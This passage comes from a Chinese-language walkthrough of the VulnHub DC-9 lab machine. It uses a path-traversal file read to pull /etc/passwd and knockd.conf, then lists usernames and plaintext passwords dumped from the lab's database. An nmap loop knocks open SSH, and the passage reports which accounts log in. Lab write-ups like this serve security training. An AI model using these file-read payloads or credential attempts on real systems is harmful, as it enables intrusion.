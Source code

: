 参数 `file` 和 DC5 一样

看看 passwd

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/11.png)

看到了熟悉的用户,刚刚 mysql 中 dump 的就有这些用户,试试 SSH 能不能直接登录
```
marym        3kfs86sfd
julied       468sfdfsd2
fredf        4sfd87sfd1
barneyr      RocksOff
tomc         TC&TheBoyz
jerrym       B8m#48sd
wilmaf       Pebbles
bettyr       BamBam01
chandlerb    UrAG0D!
joeyt        Passw0rd
rachelg      yN72#dsd
rossg        ILoveRachel
monicag      3248dsds7s
phoebeb      smellycats
scoots       YR3BVxxxw87
janitor      Ilovepeepee
janitor2     Hawaii-Five-0
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/12.png)

什么鬼,怎么连不上去,google 了半天,原来是用一个叫 knock 服务保护 SSH,按特定的访问端口才可以访问服务,淦,找一下 knock 的配置文件吧.

`http://192.168.141.143/manage.php?file=../../../../etc/knockd.conf`

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/13.png)

开门,社区送温暖
```bash
for x in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $x 192.168.141.143; done
nmap -T5 -A -v -p- 192.168.141.143
```

ok,开了,连接试试

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/14.png)

试出3个账号可以连接
```
chandlerb   UrAG0D!
joeyt       Passw0rd
janitor     Ilovepeepee
```

---

# 后期-提权
